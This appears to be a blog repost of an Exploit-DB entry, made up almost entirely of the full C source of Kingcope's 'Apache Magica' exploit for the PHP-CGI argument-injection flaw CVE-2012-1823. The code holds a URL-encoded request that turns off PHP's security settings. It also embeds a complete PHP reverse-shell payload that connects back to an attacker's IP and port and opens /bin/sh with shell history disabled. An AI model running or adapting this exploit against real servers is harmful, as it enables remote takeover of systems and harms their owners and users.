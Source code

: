 * Apache / PHP 5.x Remote Code Execution Exploit
  :PROPERTIES:
  :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit
  :END:

- published date: 2013-10-30 19:58
- keywords: ["apache", "internet", "php", "security", "swaac"]
- source: http://www.exploit-db.com/exploits/29290/

A repost of <{{page.source}}>.

#+BEGIN_QUOTE
  * Apache / PHP 5.x Remote Code Execution Exploit
    :PROPERTIES:
    :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit-1
    :END:
#+END_QUOTE

--------------

#+BEGIN_QUOTE

  - EDB-ID: 29290
  - CVE: [[http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1823][2012-1823]]
  - OSVDB-ID: N/A
  - Author: Kingcope
  - Published: 2013-10-29
  - Verified: [[http://www.exploit-db.com/images/cancel.png]]\\
  - Exploit Code: [[/download/29290][[[http://www.exploit-db.com/images/46.png]]]]
  - Vulnerable App: N/A
#+END_QUOTE

--------------

#+BEGIN_QUOTE
  ** Rating
     :PROPERTIES:
     :CUSTOM_ID: rating
     :END:

  Overall: (0.0)
#+END_QUOTE

**** This is a code execution bug in the combination of Apache and PHP.
     :PROPERTIES:
     :CUSTOM_ID: this-is-a-code-execution-bug-in-the-combination-of-apache-and-php.
     :END:

#+BEGIN_QUOTE
  #+BEGIN_SRC C
      /* Apache Magica by Kingcope */
      /* gcc apache-magika.c -o apache-magika -lssl */
      /* This is a code execution bug in the combination of Apache and PHP.
      On Debian and Ubuntu the vulnerability is present in the default install
      of the php5-cgi package. When the php5-cgi package is installed on Debian and
      Ubuntu or php-cgi is installed manually the php-cgi binary is accessible under
      /cgi-bin/php5 and /cgi-bin/php. The vulnerability makes it possible to execute
      the binary because this binary has a security check enabled when installed with
      Apache http server and this security check is circumvented by the exploit.
      When accessing the php-cgi binary the security check will block the request and
      will not execute the binary.
      In the source code file sapi/cgi/cgi_main.c of PHP we can see that the security
      check is done when the php.ini configuration setting cgi.force_redirect is set
      and the php.ini configuration setting cgi.redirect_status_env is set to no.
      This makes it possible to execute the binary bypassing the Security check by
      setting these two php.ini settings.
      Prior to this code for the Security check getopt is called and it is possible
      to set cgi.force_redirect to zero and cgi.redirect_status_env to zero using the
      -d switch. If both values are set to zero and the request is sent to the server
      php-cgi gets fully executed and we can use the payload in the POST data field
      to execute arbitrary php and therefore we can execute programs on the system.
      apache-magika.c is an exploit that does exactly the prior described. It does
      support SSL.
      /* Affected and tested versions
      PHP 5.3.10
      PHP 5.3.8-1
      PHP 5.3.6-13
      PHP 5.3.3
      PHP 5.2.17
      PHP 5.2.11
      PHP 5.2.6-3
      PHP 5.2.6+lenny16 with Suhosin-Patch
      Affected versions
      PHP prior to 5.3.12
      PHP prior to 5.4.2
      Unaffected versions
      PHP 4 - getopt parser unexploitable
      PHP 5.3.12 and up
      PHP 5.4.2 and up
      Unaffected versions are patched by CVE-2012-1823.
      */
      /*    .
           /'\rrq rk
       .  // \\  .
      .x.//fco\\-|-
       '//cmtco\\zt
       //6meqrg.\\tq
      //_________\\'
      EJPGQO
      apache-magica.c by Kingcope
      */

      #include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      #include <getopt.h>
      #include <sys/types.h>
      #include <stddef.h>
      #include <openssl/rand.h>
      #include <openssl/ssl.h>
      #include <openssl/err.h>
      #include <netdb.h>
      #include <sys/socket.h>
      #include <netinet/in.h>

      typedef struct {
          int sockfd;
          SSL *handle;
          SSL_CTX *ctx;
      } connection;

      void usage(char *argv[])
      {
        printf("usage: %s <--target target> <--port port> <--protocol http|https> "   
        "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
         argv[0]);
        exit(1);
      }

      char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"   
       "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"   
       "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"   
       "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"   
       "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"   
       "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"   
       "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"   
       "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"   
       "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"   
       "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"   
       "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"   
       "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"   
       "Host: %s\r\n"   
       "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"   
       "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"   
       "Content-Type: application/x-www-form-urlencoded\r\n"   
       "Content-Length: %d\r\n"   
       "Connection: close\r\n\r\n%s";
      char phpstr[] = "<?php\n"   
      "set_time_limit(0);\n"   
      "$ip = '%s';\n"   
      "$port = %d;\n"   
      "$chunk_size = 1400;\n"   
      "$write_a = null;\n"   
      "$error_a = null;\n"   
      "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"   
      "$daemon = 0;\n"   
      "$debug = 0;\n"   
      "if (function_exists('pcntl_fork')) {\n"   
      "  $pid = pcntl_fork();    \n"   
      "  if ($pid == -1) {\n"   
      "      printit(\"ERROR: Can't fork\");\n"   
      "      exit(1);\n"   
      "  }\n"   
      "  if ($pid) {\n"   
      "      exit(0);\n"   
      "  }\n"   
      "  if (posix_setsid() == -1) {\n"   
      "      printit(\"Error: Can't setsid()\");\n"   
      "      exit(1);\n"   
      "  }\n"   
      "  $daemon = 1;\n"   
      "} else {\n"   
      "  printit(\"WARNING: Failed to daemonise.\");\n"   
      "}\n"   
      "chdir(\"/\");\n"   
      "umask(0);\n"   
      "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"   
      "if (!$sock) {\n"   
      "  printit(\"$errstr ($errno)\");\n"   
      "  exit(1);\n"   
      "}\n"   
      "$descriptorspec = array(\n"   
      "   0 => array(\"pipe\", \"r\"),\n"   
      "   1 => array(\"pipe\", \"w\"),\n"   
      "   2 => array(\"pipe\", \"w\")\n"   
      ");\n"   
      "$process = proc_open($shell, $descriptorspec, $pipes);\n"   
      "if (!is_resource($process)) {\n"   
      "  printit(\"ERROR: Can't spawn shell\");\n"   
      "  exit(1);\n"   
      "}\n"   
      "stream_set_blocking($pipes[0], 0);\n"   
      "stream_set_blocking($pipes[1], 0);\n"   
      "stream_set_blocking($pipes[2], 0);\n"   
      "stream_set_blocking($sock, 0);\n"   
      "while (1) {\n"   
      "  if (feof($sock)) {\n"   
      "      printit(\"ERROR: Shell connection terminated\");\n"   
      "      break;\n"   
      "  }\n"   
      "  if (feof($pipes[1])) {\n"   
      "      printit(\"ERROR: Shell process terminated\");\n"   
      "      break;\n"   
      "  }\n"   
      "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"   
      "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"   
      "  if (in_array($sock, $read_a)) {\n"   
      "      if ($debug) printit(\"SOCK READ\");\n"   
      "      $input = fread($sock, $chunk_size);\n"   
      "      if ($debug) printit(\"SOCK: $input\");\n"   
      "      fwrite($pipes[0], $input);\n"   
      "  }\n"   
      "  if (in_array($pipes[1], $read_a)) {\n"   
      "      if ($debug) printit(\"STDOUT READ\");\n"   
      "      $input = fread($pipes[1], $chunk_size);\n"   
      "      if ($debug) printit(\"STDOUT: $input\");\n"   
      "      fwrite($sock, $input);\n"   
      "  }\n"   
      "  if (in_array($pipes[2], $read_a)) {\n"   
      "      if ($debug) printit(\"STDERR READ\");\n"   
      "      $input = fread($pipes[2], $chunk_size);\n"   
      "      if ($debug) printit(\"STDERR: $input\");\n"   
      "      fwrite($sock, $input);\n"   
      "  }\n"   
      "}\n"   
      "\n"   
      "fclose($sock);\n"   
      "fclose($pipes[0]);\n"   
      "fclose($pipes[1]);\n"   
      "fclose($pipes[2]);\n"   
      "proc_close($process);\n"   
      "function printit ($string) {\n"   
      "  if (!$daemon) {\n"   
      "      print \"$string\n\";\n"   
      "  }\n"   
      "}\n"   
      "exit(1);\n"   
      "?>";

      struct sockaddr_in *gethostbyname_(char *hostname, unsigned short port)
      {
       struct hostent *he;
       struct sockaddr_in server, *servercopy;
       
       if ((he=gethostbyname(hostname)) == NULL) {
        printf("Hostname cannot be resolved\n");
        exit(255);
       }
       
       servercopy = malloc(sizeof(struct sockaddr_in));
       if (!servercopy) {
          printf("malloc error (1)\n");
          exit(255);
       }
       memset(&server, '\0', sizeof(struct sockaddr_in));
       memcpy(&server.sin_addr, he->h_addr_list[0],  he->h_length);
       server.sin_family = AF_INET;
       server.sin_port = htons(port);
       memcpy(servercopy, &server, sizeof(struct sockaddr_in));
       return servercopy;
      }

      char *sslread(connection *c)
      {
        char *rc = NULL;
        int received, count = 0, count2=0;
        char ch;

        for(;;)
        {
         if (!rc)
          rc = calloc(1024, sizeof (char) + 1);
         else
          if (count2 % 1024 == 0) {
           rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
          }
          received = SSL_read(c->handle, &ch, 1);
          if (received == 1) {
           rc[count++] = ch;
           count2++;
           if (count2 > 1024*5)
            break;
          }
          else
           break;
         }
        return rc;
      }

      char *read_(int sockfd)
      {
        char *rc = NULL;
        int received, count = 0, count2=0;
        char ch;

        for(;;)
        {
         if (!rc)
          rc = calloc(1024, sizeof (char) + 1);
         else
          if (count2 % 1024 == 0) {
           rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
          }
          received = read(sockfd, &ch, 1);
          if (received == 1) {
           rc[count++] = ch;
           count2++;
           if (count2 > 1024*5)
            break;
          }
          else
           break;
         }
        return rc;
      }

      void main(int argc, char *argv[])
      {
        char *target, *protocol, *targetip, *writestr, *tmpstr, *readbuf=NULL,
         *interpreter, *reverseip, *reverseportstr, *forceinterpreter=NULL;
        char httpsflag=0;
        unsigned short port=0, reverseport=0;
        struct sockaddr_in *server;
        int sockfd;
        unsigned int writesize, tmpsize;
        unsigned int i;
        connection *sslconnection;
        printf("-== Apache Magika by Kingcope ==-\n");
        for(;;)
        {
           int c;
           int option_index=0;
           static struct option long_options[] = {
             {"target", required_argument, 0, 0 },
             {"port", required_argument, 0, 0 },
             {"protocol", required_argument, 0, 0 },
             {"reverse-ip", required_argument, 0, 0 },
             {"reverse-port", required_argument, 0, 0 },
             {"force-interpreter", required_argument, 0, 0 },      
             {0, 0, 0, 0 }
            };
           
           c = getopt_long(argc, argv, "", long_options, &option_index);
           if (c < 0)
              break;
           
           switch (c) {
           case 0:
            switch (option_index) {
             case 0:
              if (optarg) {
               target = calloc(strlen(optarg)+1, sizeof(char));
               if (!target) {
                printf("calloc error (2)\n");
                exit(255);
               }
               memcpy(target, optarg, strlen(optarg)+1);
              }
              break;
             case 1:
              if(optarg)
               port = atoi(optarg);
              break;
             case 2:
              protocol = calloc(strlen(optarg)+1, sizeof(char));
              if (!protocol) {
               printf("calloc error (3)\n");
               exit(255);
              }
              memcpy(protocol, optarg, strlen(optarg)+1);
              if (!strcmp(protocol, "https"))
               httpsflag=1;
              break;
             case 3:
              reverseip = calloc(strlen(optarg)+1, sizeof(char));
              if (!reverseip) {
               printf("calloc error (4)\n");
               exit(255);
              }
              memcpy(reverseip, optarg, strlen(optarg)+1);       
              break;
             case 4:
              reverseport = atoi(optarg);       
              reverseportstr = calloc(strlen(optarg)+1, sizeof(char));
              if (!reverseportstr) {
               printf("calloc error (5)\n");
               exit(255);
              }
              memcpy(reverseportstr, optarg, strlen(optarg)+1);        
              break;
             case 5:
              forceinterpreter = calloc(strlen(optarg)+1, sizeof(char));
              if (!forceinterpreter) {
               printf("calloc error (6)\n");
               exit(255);
              }
              memcpy(forceinterpreter, optarg, strlen(optarg)+1);       
              break;
             default:
              usage(argv);
            }
            break;
           
           default:
            usage(argv);
           }
        }

        if ((optind < argc) || !target || !protocol || !port ||
            !reverseip || !reverseport){
          usage(argv);
        }
        
        server = gethostbyname_(target, port);
        if (!server) {
         printf("Error while resolving hostname. (7)\n");
         exit(255);
        }

        char *interpreters[5];
        int ninterpreters = 5;
        interpreters[0] = strdup("/cgi-bin/php");
        interpreters[1] = strdup("/cgi-bin/php5");
        interpreters[2] = strdup("/cgi-bin/php-cgi");
        interpreters[3] = strdup("/cgi-bin/php.cgi");
        interpreters[4] = strdup("/cgi-bin/php4");
        
        for (i=0;i<ninterpreters;i++) {
         interpreter = interpreters[i];
         if (forceinterpreter) {
           interpreter = strdup(forceinterpreter);
         }
         if (forceinterpreter && i)
          break;
         printf("%s\n", interpreter);
         
         sockfd = socket(AF_INET, SOCK_STREAM, 0);
         if (sockfd < 1) { 
           printf("socket error (8)\n");
           exit(255);
         }
        
         if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
          printf("connect error (9)\n");
          exit(255);    
         }
         if (httpsflag) {
          sslconnection = (connection*) malloc(sizeof(connection));
          if (!sslconnection) {
           printf("malloc error (10)\n");
           exit(255);   
          }
          sslconnection->handle = NULL;
          sslconnection->ctx = NULL;

          SSL_library_init();

          sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
          if (!sslconnection->ctx) {
           printf("SSL_CTX_new error (11)\n");
           exit(255);
          }

          sslconnection->handle = SSL_new(sslconnection->ctx);
          if (!sslconnection->handle) {
           printf("SSL_new error (12)\n");
           exit(255);   
          }
          if (!SSL_set_fd(sslconnection->handle, sockfd)) {
           printf("SSL_set_fd error (13)\n");
           exit(255);
          }
         
          if (SSL_connect(sslconnection->handle) != 1) {
           printf("SSL_connect error (14)\n");
           exit(255);       
          }
         }
        
         tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
         tmpstr = (char*)calloc(tmpsize, sizeof(char));
         snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);
         
         writesize = strlen(target) + strlen(interpreter) + 
           strlen(poststr) + strlen(tmpstr) + 64;
         writestr = (char*)calloc(writesize, sizeof(char));
         snprintf(writestr, writesize, poststr, interpreter,
           target, strlen(tmpstr), tmpstr);
        
         if (!httpsflag) {
           write(sockfd, writestr, strlen(writestr));
           readbuf = read_(sockfd);
         } else {
           SSL_write(sslconnection->handle, writestr, strlen(writestr));
           readbuf = sslread(sslconnection);
         }
        
         if (readbuf) {
           printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);  
         } else {
          printf("read error (15)\n");
          exit(255);    
         }
        }
        exit(1);
      }
  #+END_SRC
#+END_QUOTE
